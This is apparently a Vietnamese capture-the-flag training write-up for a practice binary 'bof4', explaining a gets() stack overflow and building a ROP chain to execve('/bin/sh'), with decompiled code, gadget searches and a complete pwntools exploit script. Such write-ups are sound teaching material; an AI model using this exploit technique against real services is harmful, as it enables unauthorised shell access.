



**1. TÌm lỗi**

Chạy thử file ta được:


Dùng lệnh 'file' kiểm tra:

```
bof4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped
```

---> Mở bằng IDA64 ta được:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  char v8[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  printf((unsigned int)"Say something: ", (_DWORD)argv, v3, v4, v5, v6, v8[0]);
  gets(v8);
  return 0;
}
```

Đoạn mã khai báo các biến v3, v4, v5 và v6. Chúng ta không biết với chắc chắn rằng các biến này được sử dụng trong đoạn mã này, vì chúng ta không thấy bất kỳ hoạt động gán nào cho chúng.

Mảng v8 được khai báo với kích thước 80 byte. Đây là một mảng địa phương được lưu trữ trên stack.

Chuỗi "Say something: " được in ra màn hình. Các biến v3, v4, v5, v6 và v8[0] được truyền vào.

Hàm gets được sử dụng để đọc dữ liệu được nhập từ bàn phím và lưu trữ vào mảng v8 -> Có lỗi bof ở đây vì hàm gets không giới hạn số byte nhập vào.

**2. Ý tưởng**

Nhập tràn từ buf đến ret rồi ROP để lấy flag.

**3. Khai thác**

```
   0x00000000004011a7 <+39>:    lea    rax,[rbp-0x50]
   0x00000000004011ab <+43>:    mov    rdi,rax
   0x00000000004011ae <+46>:    mov    eax,0x0
   0x00000000004011b3 <+51>:    call   0x401510 <gets>
```

Ta thấy được biến buf cách rbp 0x50 nên cách ret 0x50 + 0x8. Vậy cần nhập (0x50 + 0x8) byte rác.



Vậy cần kiếm một số gadget về rax, rdi, rsi, rdx. Và truyền địa chỉ ghi vào cho rdi, rsi và rdx bằng 0 và rax = 0x3b

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ROPchain$ ROPgadget --binary bof4 | grep "pop rax"
0x00000000004043e3 : pop rax ; pop rdx ; add rsp, 0x28 ; ret
0x0000000000401001 : pop rax ; ret
0x0000000000401000 : push rax ; pop rax ; ret
0x00000000004043e0 : sub dword ptr [rdi], 0x78 ; pop rax ; pop rdx ; add rsp, 0x28 ; ret
```

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ROPchain$ ROPgadget --binary bof4 | grep "pop rdi"
0x000000000040220e : pop rdi ; ret
```

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ROPchain$ ROPgadget --binary bof4 | grep "pop rsi"
0x000000000040220c : pop rsi ; pop r15 ; ret
0x00000000004015ae : pop rsi ; ret
```

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ROPchain$ ROPgadget --binary bof4 | grep "pop rdx"
0x00000000004043e2 : js 0x40443c ; pop rdx ; add rsp, 0x28 ; ret
0x00000000004043e3 : pop rax ; pop rdx ; add rsp, 0x28 ; ret
0x00000000004043e4 : pop rdx ; add rsp, 0x28 ; ret
0x00000000004043e0 : sub dword ptr [rdi], 0x78 ; pop rax ; pop rdx ; add rsp, 0x28 ; ret
```

```
0x000000000040132e : syscall
```

Ta tóm tắt lại các thanh ghi như sau:

```
pop_rax = 0x0000000000401001
pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
syscall = 0x000000000040132e
```

Thật may là có đủ thanh ghi cần thiết nhưng khi pop rdx thì cần ghi thêm 0x28 byte rác vì nó không ret ngay. Tiếp theo là kiếm địa chỉ còn trống và thực thi được để ghi vào.

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /mnt/d/CTF_Writeup/Train/ROPchain/bof4
          0x401000           0x405000 r-xp     4000   1000 /mnt/d/CTF_Writeup/Train/ROPchain/bof4
          0x405000           0x406000 r--p     1000   5000 /mnt/d/CTF_Writeup/Train/ROPchain/bof4
          0x406000           0x408000 rw-p     2000   5000 /mnt/d/CTF_Writeup/Train/ROPchain/bof4
    0x7ffff7ff9000     0x7ffff7ffd000 r--p     4000      0 [vvar]
    0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000      0 [vdso]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
```

Có ngay khoảng địa chỉ từ 0x406000 -> 0x408000 có thể ghi vào -> Đi kiếm phần còn trống thôi bằng lệnh 'x/100xg 0x406000'. 

Kiếm ngay được địa chỉ là: '0x406bc0'

Vậy tiếp theo sẽ nhập tràn biến buf đến ret và đưa địa chỉ vừa kiếm được vào rdi.

```
payload = b'a'*(0x50 + 0x8)
payload += p64(pop_rdi) + p64(rw_section)
```

Điều hướng quay lại hàm gets để ghi chuỗi '/bin/sh' vào.

```payload += p64(exe.sym['gets'])```

Đặt breakpoint ở ret xem đã chạy đúng ý mình chưa:



Vậy đã pop rdi và gọi tới hàm gets như ý mình muốn.

Tiếp theo sẽ đưa các giá trị cần thiết vào thanh ghi phù hợp để thực thi sys_execve

```
payload += p64(pop_rdi) + p64(rw_section)
payload += p64(pop_rdx) + p64(0)
payload += b'a'*0x28
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
```

Sau khi gửi được các giá trị cần thiết trên thì nhập '/bin/sh' để có thể điều khiển được hệ thống.

Ta có script như sau:

```
from pwn import *

exe = ELF('bof4')
r = process(exe.path)

pop_rax = 0x0000000000401001
pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
syscall = 0x000000000040132e
rw_section = 0x406bc0

payload = b'a'*(0x50 + 0x8)
payload += p64(pop_rdi) + p64(rw_section)
payload += p64(exe.sym['gets'])

payload += p64(pop_rdi) + p64(rw_section)
payload += p64(pop_rdx) + p64(0)
payload += b'a'*0x28
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
#input()
r.sendlineafter(b'Say something: ', payload)
r.sendline(b'/bin/sh')
r.interactive()
```

**4. Lấy flag**


